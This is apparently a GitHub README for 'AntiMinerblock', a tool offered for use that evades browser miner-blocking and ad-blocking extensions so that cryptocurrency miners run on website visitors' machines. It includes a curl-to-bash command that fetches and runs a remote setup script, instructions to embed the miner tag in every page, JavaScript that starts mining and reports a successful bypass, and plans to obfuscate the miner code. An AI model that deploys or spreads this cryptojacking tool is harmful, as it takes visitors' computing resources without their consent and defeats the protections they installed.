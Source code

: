 # AntiMinerblock
This script attempts to bypass extensions or network blocks that prevent the use of online cryptocurrency miners.

## 100% effectiveness from tested extensions
* MinerBlock
* AntiMiner
* Adblock (all lists enabled)
* Adblock Plus
### Test it at: https://skyrisbactera.com/antiminerblock/test.html

## Features
* 100% success rate
* Obfuscates filenames per server
* Automatically creates proxy (using coin-hive-stratum)
* Random port
* Interactive setup

## Installation
### Ubuntu/Unix
First, make sure you have Node.js installed:
https://nodejs.org/en/download/package-manager/

Navigate to your server's scripts directory and run
```bash
bash <(curl -s https://raw.githubusercontent.com/SkyrisBactera/AntiMinerblock/master/setup.sh)
```
Then, add the script tag that the file generates to every HTML file you want to be protected. That's it!
### Windows
Not implemented yet (you can use cygwin for now)

## Usage
Call loadCryptominer, which will return a miner, and will return a value 0 to 4 referring to whether or not it worked.
```
0 - Remote coinhive
1 - Local coinhive with proxy
2 - Authedmine
3 - Crypto-loot
4 - Cloudcoins
5 - All blocked
6 - Script not blocked, but failure creating miner instance
```

Example:
```javascript
loadCryptominer(function(miner, status) {
  //Code that mines
  //For example:
  if (status == 5 || status == 6) {
    console.log("TEST FAILED!")
  } else {
    console.log("SUCCESSFULLY BYPASSED PROTECTION!")
  }
  miner.start();
  // Update stats once per second
  setInterval(function() {
    var hashesPerSecond = miner.getHashesPerSecond();
    var totalHashes = miner.getTotalHashes();
    var acceptedHashes = miner.getAcceptedHashes();
    console.log(hashesPerSecond, totalHashes, acceptedHashes)
    }, 1000);
});
```
## Donate!
If you appreciate this project, feel free to send me money at:
```davis@skyrisbactera.com```

## TODO
* Run proxy over port 80 or 443
* Obfuscate miner code
